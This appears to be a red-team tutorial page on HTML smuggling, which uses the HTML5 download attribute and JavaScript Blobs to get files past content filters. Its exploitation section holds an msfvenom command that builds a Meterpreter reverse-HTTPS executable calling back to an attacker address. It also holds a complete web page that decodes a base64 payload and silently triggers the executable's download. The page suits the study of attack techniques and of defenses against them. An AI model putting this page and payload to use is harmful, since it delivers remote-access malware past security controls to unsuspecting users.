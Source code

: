 # ⭕ HTML Smuggling

{% embed url="https://github.com/Arno0x/EmbedInHTML" %}

Using a combination of HTML5 and JavaScript to sneak malicious files past content filters.This mechanism has been incorporated into popular offensive frameworks such as [Demiguise](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2017/august/smuggling-hta-files-in-internet-exploreredge/) and [SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) .



## <mark style="color:red;">HTML5 download attribute</mark>

HTML5 introduced the [“download” attribute](https://www.w3schools.com/tags/att\_a\_download.asp) for anchor tags. Consider the following line of HTML, which is supported by all modern browsers:

```
<a href="/files/doc123.doc" download="myfile.doc">Click</a>
```

When a user clicks on the hyperlink, the download attribute instructs the browser to download the target pointed to by the href attribute and save it to disk as “myfile.doc”. Of course, the anchor and its download attribute can also be created using JavaScript instead of HTML:

```
var myAnchor = document.createElement('a');
myAnchor.download = 'filename.doc';
```

## <mark style="color:red;">Blobs and URLs</mark>

A Blob is an immutable object that represents raw data. Blobs allow you to construct file-like objects on the client that you can pass to JavaScript APIs that expect URLs. Instead of requiring that the web server provides the file, the Blob can be constructed locally using pure JavaScript.

```
var myBlob = new Blob([myData], {type: 'octet/stream'});
```

This line creates a Blob of MIME type “octet/stream” and fills is with the data contained in variable myData. We can then use URL.createObjectURL to create a URL from our Blob object and have an anchor point to it:

```
var myUrl = window.URL.createObjectURL(blob);
myAnchor.href = myUrl;
```

Lastly, we can simulate a click on the anchor object using JavaScript’s HTMLElement.click() method:

```
myAnchor.click();
```

This will result in triggering the anchor’s click event, which in turn points to our Blob and which will be downloaded as “filename.doc” (since we specified the download attribute). These features are supported by all major modern browsers. For older versions of Internet Explorer (not Edge) we can revert to the msSaveBlob method to save a Blob object to disk.

## <mark style="color:red;">Exploitation</mark>

First, our Base64 code is placed into an array buffer, byte-by- byte.&#x20;

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe

base64 /var/www/html/msfstaged.exe
```

We’ll then place the array buffer into our Blob. Next, we’ll create a hidden “a” tag. The data from our Blob is then moved to the href reference of our “a” tag. Our Blob code in the href is given the file name of ‘msfnonstaged.exe’. Finally, a click action is performed to download our file. The complete webpage used to trigger the HTML smuggling with the Meterpreter executable is given below:

```
<html>
    <body>
        <script>
        function base64ToArrayBuffer(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);}
            return bytes.buffer;
        }
        var file ='BASE 64 ENCODED PAYLOAD'
        var data = base64ToArrayBuffer(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'msfstaged.exe';
        var a = document.createElement('a');
        document.body.appendChild(a);
        a.style = 'display: none';
        var url = window.URL.createObjectURL(blob);
        a.href = url;
        a.download = fileName;
        a.click();
        window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```
